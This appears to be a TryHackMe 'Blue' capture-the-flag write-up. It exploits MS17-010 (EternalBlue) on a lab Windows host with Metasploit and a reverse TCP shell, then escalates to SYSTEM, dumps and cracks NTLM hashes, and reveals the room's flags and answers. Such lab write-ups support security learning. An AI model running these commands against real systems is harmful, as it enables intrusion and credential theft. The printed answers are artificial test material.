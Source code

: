 # Task 1 Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

Answer the questions below

Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

`nmap -sS -Pn -p- -T4 --script vuln -vv 10.10.72.18`


How many ports are open with a port number under 1000?
`nmap -sS -Pn -p 1-1000 -T4 -vv 10.10.72.18`
Answer: `3`

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

Answer: `ms17-010`

# Task 2 Gain Access
Exploit the machine and gain a foothold.
Start [Metasploit](https://tryhackme.com/module/metasploit)
`msfconsole`

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
`search ms17-010`
Answer: `exploit/windows/smb/ms17_010_eternalblue`

Show options and set the one required value. What is the name of this value? (All caps for submission)
`use 0`
`show options`
`set RHOSTS 10.10.72.18`

Answer: `RHOSTS`

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`

With that done, run the exploit!

`set lhost 10.4.18.254`
`exploit`

# Task 3 Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

Answer the questions below

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

`search shell_to_meterpreter`

Answer: `post/multi/manage/shell_to_meterpreter`

`use 0`
`show options` we need lhost, lport, session

Select this (use MODULE_PATH). Show options, what option are we required to change?
Answer: `session`

Set the required option, you may need to list all of the sessions to find your target here.
`sessions -l` shows us sessionID `1` only.

`set session 1`
`set lhost 10.4.18.254`
`lport` looks to be `4433` which shouldn't conflict with anything we have running currently.

Run! If this doesn't work, try completing the exploit from the previous task once more.
`run`

Once the meterpreter shell conversion completes, select that session for use.
`sessions -l`
`sessions 2`

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
`getuid`

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).
`ps`

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

`migrate 2212`

# Task 4 Cracking

Dump the non-default user's password and crack it!

Answer the questions below

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?
```metasploit
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Answer: `Jon`


Copy this password hash to a file and research how to crack it. What is the cracked password?
`hashcat -a 0 -m 1000 hash.txt rockyou.txt`

Answer: `alqfna22`

# Task 5 Find flags!

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below 
to complete this room!

`dir/s/a/b c:\flag*.*`

Flag1? _This flag can be found at the system root._

`type c:\flag1.txt`
Answer: `flag{access_the_machine}`

Flag2? _This flag can be found at the location where passwords are stored within Windows._
*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

`type c:\windows\system32\config\flag2.txt
Answer: `flag{sam_database_elevated_access}`

flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._
`type c:\users\jon\documents\flag3.txt`
Answer: `flag{admin_documents_can_be_valuable}`

